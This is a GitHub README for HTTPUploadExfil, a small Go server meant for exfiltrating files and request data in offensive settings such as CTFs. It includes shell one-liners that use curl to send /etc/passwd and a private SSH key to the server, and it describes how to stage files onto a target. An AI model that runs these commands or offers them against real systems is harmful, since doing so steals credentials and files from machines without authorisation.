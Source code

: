 # HTTPUploadExfil

<p align="center">
  <img alt="HTTPUploadExfil Logo" src="https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/HTTPUploadExfil.png?raw=true"/>
</p>

![MIT License](https://img.shields.io/github/license/IngoKl/HTTPUploadExfil?style=flat-square)
![GitHub stars](https://img.shields.io/github/stars/IngoKl/HTTPUploadExfil?style=flat-square)

`HTTPUploadExfil` is a (very) simple HTTP server written in Go that's useful for getting files (and other information) off a machine using HTTP. While there are many use-cases, it's meant to be used in **low-stakes offensive scenarios** (e.g., CTFs).

Think of this as `python3 -m http.server` but for getting data off a machine instead of on the machine.

Obviously, this is a **very loud** and **somewhat restricted** way of exfiltrating data. Nevertheless, it's quite handy and somewhat easier than, for example, using SMB or FTP. If you are looking for something more elegant, have a look at, for example, [`dnsteal`](https://github.com/m57/dnsteal) or [`PyExfil`](https://github.com/ytisf/PyExfil).

## TL;DR

1) Build the tool using `go build`.
2) Run `./httpuploadexfil :1337 /home/kali/loot` on your machine.
3) Access `http://YOUR_IP:1337/` on the machine you need to exfiltrate data from.
4) Find your uploaded files in `/home/kali/loot`.

If you need HTTPs, look at the information below.

## Building and Developing

While there are binaries available, it's absolutely recommended to **build this on your own**. This way, you will have the newest version, and you will also know exactly what you're running. The process is trivial:

Simply run `go build` within the folder, and you should get an `httpuploadexfil` executable for your platform.

If you make changes to the tool, remember to format using `go fmt main.go`.

## Usage

The most common use case would be to run the server on *Machine A*. Now, on *Machine B* you access the upload form using a browser and select a file to exfiltrate. Of course, as you can see below, this can also be done using, for example, `curl`.

Aside from uploading files, you can also use `HTTPUploadExfil` to exfiltrate data using simple GET requests. If a request is sent to the `\g` endpoint, the whole request will be stored to disk.

Hence, you can exfiltrate data using the header of the request. It's easiest to use GET parameters (e.g., `?data=...`), but there are other options.

![HTTPUploadExfil](https://github.com/IngoKl/HTTPUploadExfil/blob/main/media/example-1.png?raw=true)

By default, `HTTPUploadExfil` will be served on port 8080. All files will be written to the current directory.

`./httpuploadexfil`

You can also provide some arguments:

`./httpuploadexfil :1337 /home/kali/loot`

The first argument is a bind address, the second one the folder to store files in.

The tool will also expose the files in the loot directory under the `/l` endpoint. This can be used as an easy way to bring files onto the target.

### Endpoints

The webserver exposes four endpoints for you to use:

1) `/` (GET) is the upload form.
2) `/p` (POST) takes the data from the upload form. It requires a `multipart/form-data` request with the `file` field filled.
3) `/g` (GET) will take any GET request and store the full request on the server.
4) `/l` (GET) will provide access to files in the specified folder (Directory Listing). This is to provide basic `python3 -m http.server` functionality.

### HTTPs Mode

`HTTPUploadExfil` can also be used in HTTPs mode. To do so, simply place a `HTTPUploadExfil.csr` and `HTTPUploadExfil.key` file next to the binary. These can be, for example, generated as follows:

```bash
openssl req -new -newkey rsa:2048 -nodes -keyout HTTPUploadExfil.key -out HTTPUploadExfil.csr
openssl x509 -req -days 365 -in HTTPUploadExfil.csr -signkey HTTPUploadExfil.key -out HTTPUploadExfil.csr
```

If the servers sees a `HTTPUploadExfil.csr` file, it will try to start in HTTPs mode. To go back to HTTP, simply remove or rename the certificate files.

### Shell

Using `Bash`, we can exfil data using GET via, for example:

``echo "data=`cat /etc/passwd`" | curl -d @- http://127.0.0.1:8080/g``

Of course, we can also use `curl` to exfil files:

`curl -F file=@/home/kali/.ssh/id_rsa http://127.0.0.1:8080/p`

## ToDo

- [X] Implement an HTTPs version (Transport Encryption)
- [X] Add download option (i.e., provide `python3 -m http.server` functionality)
